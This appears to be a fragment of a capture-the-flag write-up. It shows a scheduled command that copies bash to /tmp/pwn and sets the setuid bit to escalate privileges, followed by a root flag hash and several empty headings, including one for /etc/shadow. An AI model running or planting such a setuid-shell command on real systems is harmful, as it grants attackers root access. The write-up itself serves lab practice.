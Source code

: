 >mark:supersmash

![](<./attachments/Imagery-28.png>)
```bash 
auto add --schedule "*/1 * * * *" --command "cp /bin/bash /tmp/pwn && chmod +s /tmp/pwn" --name "hack"
supersmash

```

![](<./attachments/Imagery-30.png>)
---
# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---
# Trophies

## User Flag
```txt

```
## Root Flag
```txt
605898d5b2dd14b3550d6a526d333335
```
## **/etc/shadow**
